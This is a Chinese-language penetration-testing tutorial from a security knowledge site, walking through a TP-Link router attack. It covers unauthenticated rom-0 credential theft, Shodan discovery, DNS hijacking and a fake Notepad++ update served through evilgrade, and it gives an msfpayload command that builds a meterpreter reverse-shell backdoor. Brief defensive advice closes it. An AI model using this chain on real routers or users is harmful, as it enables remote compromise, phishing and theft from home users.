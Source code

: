 # TPLINK 渗透实战

2014/07/16 10:32 | [楚无伤](http://drops.wooyun.org/author/楚无伤 "由 楚无伤 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [渗透案例](http://drops.wooyun.org/category/pentesting "查看 渗透案例 中的全部文章") | 占个座先 | 捐赠作者

**from: http://www.exploit-db.com/wp-content/themes/exploit/docs/33369.pdf**

## 0x00 工具

* * *

一台笔记本电脑 TD-W8901D 路由器（firmware 6.0.0） 虚拟机(WIN7)、Kali Linux（攻击机）、evilgrade（一个模块化的脚本框架，可实现伪造的升级、自带 DNS 和 WEB 服务模块，http://www.infobyte.com.ar/down/isr-evilgrade-Readme.txt) Metasploit。

## 0x01 示例

* * *

**互联网攻击示意图：**

![enter image description here](img/img1_u144_jpg.jpg)

**局域网攻击示意图**

![enter image description here](img/img2_u101_jpg.jpg)

市场上有很多类型的路由器可用，但绝大部分从未升级固件，所以可对大多数家用路由进行这个攻击，在这个项目中使用的是最常见的 TPlink 路由器。

TPLINK 某些版本有一个关键的漏洞：未授权访问 Firmware/Romfile 界面，无需登陆密码，像这样 http://IP//rpFWUpload.html。

同时也可以下载 romfile 备份文件（rom-0）,像这样：http://IP address/rom-0。

步骤一：下载 rom 文件 ![enter image description here](img/img3_u4_jpg.jpg)

下载回来的 rom 文件需要逆向工程得到明文密码，但有一个更简单的方法，去俄罗斯的一个网站可以解密 http://www.hakim.ws/huawei/rom-0/

步骤二：使用账号密码登陆 ![enter image description here](img/img4_u8_jpg.jpg)

第三步：使用搜索引擎 SHODAN 搜索 RomPager，可在互联网上找到 700 多万个这种设备 ![enter image description here](img/img5_jpg.jpg)

简单的改变一下路由器的 DNS，就可以重定向用户的请求，这个方法可以用来钓鱼（从我了解的情况看来，国内已经有大批路由被利用，并已经被黑产用作钓鱼欺诈，黑产表打我，我猜的）。但这个太简单了，作者希望玩的更高(hua)深(shao)一些。

默认 DNS 的配置是这样： ![enter image description here](img/img6_u16_jpg.jpg)

改成攻击者自己的 DNS：

![enter image description here](img/img7_u14_jpg.jpg)

攻击系统：DNS 服务器一台、kali 预装了 evilgrade 和 metasploit。

![enter image description here](img/img8_u8_jpg.jpg)

第五步：建一个带后门的 payload，给用户发送升级指令。LHOST= 攻击者机器 IP 和 LPORT =任何开放的端口。

```
Commad:@@# msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.5.132 LPORT=8080 x > navebackdoor.exe 
```

![2014071323521922657_jpg.jpg](img/img9_u5_jpg.jpg)

第六步：启动 metasploit、运行 payload

![2014071323523583152_jpg.jpg](img/img10_u43_jpg.jpg)

  ![2014071323530565178_jpg.jpg](img/img11_u37_jpg.jpg)

![2014071323531775176_jpg.jpg](img/img12_u31_jpg.jpg)

第七步：设置监听主机和监听端口，命令：set LHOST（攻击者的 IP）、set LPORT（监听端口，创建后门时分配的）、exploit（进行攻击）

![2014071323533763041_jpg.jpg](img/img13_u10_jpg.jpg)

第八步：启动假的 WEB 升级服务器 evilgrade，执行 show modules 后，可以看到很多假更新模块，这里选用 notepadplus

![2014071323535610035_jpg.jpg](img/img14_u30_jpg.jpg)

![2014071323541051845_jpg.jpg](img/img15_u26_jpg.jpg)

![2014071323542812615_jpg.jpg](img/img16_u24_jpg.jpg)

第九步：show options 可以看到模块的使用方法，设置后门升级文件路径使用 agent：

```
Set  agent  ‘[“<%OUT%>/root/Desktop/navebackdoor.exe<%OUT%>”]’ 
```

![2014071323544287175_jpg.jpg](img/img17_u22_jpg.jpg)

第十步：完成以上动作后，启动 EvilGrade 的 WEB 服务器：

```
start 
```

![2014071323550126547_jpg.jpg](img/img18_u17_jpg.jpg)

第十一步：等受害者打开 notepadplus，一旦打开就会弹出要求更新的提示，更新过程中将会加载我们的后门程序。

![2014071323551940538_jpg.jpg](img/img19_u16_jpg.jpg)

![2014071323553365266_jpg.jpg](img/img20_u19_jpg.jpg)

第十二步：在攻击机器上，evilgrade 和 Metasploit 建立会话，等待返回的 shell

![2014071323554774816_jpg.jpg](img/img21_u4_jpg.jpg)

第十三步：拿到 shell，使用 sysinfo 查看一下：

![2014071323560039521_jpg.jpg](img/img22_jpg.jpg)

输入 help 可以看到很多命令，包括 scrrenshot、killav,运行 vnc 等

![2014071323561637433_jpg.jpg](img/img23_u13_jpg.jpg)

![2014071323563672357_jpg.jpg](img/img24_jpg.jpg)

## 0x02 防御方法

* * *

经常升级你的路由器版本

路由器不要在公网暴露

系统和软件升级时检查证书

设置静态 IP，比如 google 的 8.8.8.8、8.8.4.4（广告：阿里巴巴的公共 dns 223.5.5.5 和 223.6.6.6）

版权声明：未经授权禁止转载 [楚无伤](http://drops.wooyun.org/author/楚无伤 "由 楚无伤 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Powershell tricks::Bypass AV](http://drops.wooyun.org/tips/3353)
*   [非扫描式定位攻击域内 SQL Server](http://drops.wooyun.org/pentesting/2134)
*   [WIFI 渗透从入门到精通](http://drops.wooyun.org/pentesting/3390)
*   [使用 LDAP 查询快速提升域权限](http://drops.wooyun.org/pentesting/2125)
*   [基于 ossec logstash es 大数据安全关联分析](http://drops.wooyun.org/tips/2821)
*   [如何发现 NTP 放大攻击漏洞](http://drops.wooyun.org/tips/4715)